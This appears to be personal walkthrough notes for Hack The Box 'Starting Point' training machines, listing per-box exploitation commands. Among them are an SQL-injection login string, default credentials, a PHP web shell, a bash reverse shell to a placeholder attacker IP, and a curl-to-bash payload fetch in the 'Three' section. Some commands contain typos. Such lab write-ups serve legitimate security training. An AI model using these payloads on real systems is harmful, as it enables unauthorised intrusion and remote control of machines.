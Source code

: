 # TIER 0

### Meow  
telnet as "root", blank password

### Fawn
ftp as anonymous, get flag.txt  

### Dancing  
smbclient -L {IP-address}  
smbclient \\\\{IP-address}\\WorkShares  
ls; cd ..; cd James.P; get flag.txt  

### Redeemer  
redis-cli -h {IP-address}
info  
keys *  
get Flag  

### Explosion
RDP as Administrator, no password  
xfreerdp /v:Administrator /cert:ignore /v:{IP-addess}  

### Preignition
gobuster -x php {IP-address}
http://{IP-address}/admini.php

# TIER 1
### Appoinment
SQLI on login page-> admin'#  

### Sequel
mysql -h {IP-address} -u root
SHOW databases;
USE htb; SHOW tables; SELECT * FROM config;

### Crocodile
ftp anonymous to get list of usernames/passwords
gobustoer -x php to find login.php
admin user goes to server page showing flag  

### Responder  
sudo get install evil-winrm  
evit-winrm -u Administrator -p badminton -i {IP-address}  

### Three  
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/subdomains-top1million-5000.txt  
gobuster vhost -w ./subdomains-top1million5000.txt -u http://thetoppers.htb  
yields "s3".thetopppers.htb
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb  
echo '<?php system($_GET["cmd"]); ?>' > shell.php  
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb  
http://thetoppers.htb/shell.php?cmd=id  
create shell.sh  
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

nc -nvlp 1337
python3 -m http.server 8000  
http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash  

### Ignition
http://ignition.htb/admin
admin:qwerty123

### Bike
SSTI send {{7+7}}  BURP repeater to ahve "Handlebars" provide data  

### Pennyworth
Jenkins/Groovy script for a reverse shell

### Tactics
SMB share, retrieve flag.txt  

# TIER 2
### Oopsie
[HTB write up](/writeups/oopsie.pdf)
php upload a reverse shell, SUID escalation due to group membership

